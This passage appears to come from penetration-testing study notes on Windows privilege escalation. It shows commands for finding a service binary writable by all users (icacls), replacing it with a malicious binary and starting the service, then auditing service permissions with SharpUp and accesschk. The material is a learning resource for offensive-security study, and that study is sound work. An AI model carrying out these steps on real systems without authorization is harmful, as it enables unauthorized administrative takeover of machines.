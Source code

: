         # this identifies PC Security Management Service along with binary path

        # check permissions using icacls
        icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
        # 'Everyone' and 'BUILTIN\Users' groups have been granted full permissions to this dir
        # any user can manipulate this dir and its files
        ```

        ```cmd
        # this service is startable by unprivileged users
        # so we can take a backup of original binary and replace it with a malicious binary

        cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"

        sc start SecurityService
        # malicious binary executed
        ```
    
    * Weak service permissions:

        ```cmd
        # check using SharpUp for any modifiable services
        SharpUp.exe audit
        # we see WindScribeService is potentially misconfigured

        # check permissions with AccessChk from Sysinternals
        accesschk.exe /accepteula -quvcw WindscribeService
        # -q - omit banner, -u - suppress errors, -v - verbose, -c - service name, -w - only show objects with write access

        # WindscribeService shows all authenticated users have 'SERVICE_ALL_ACCESS' rights - full r/w control
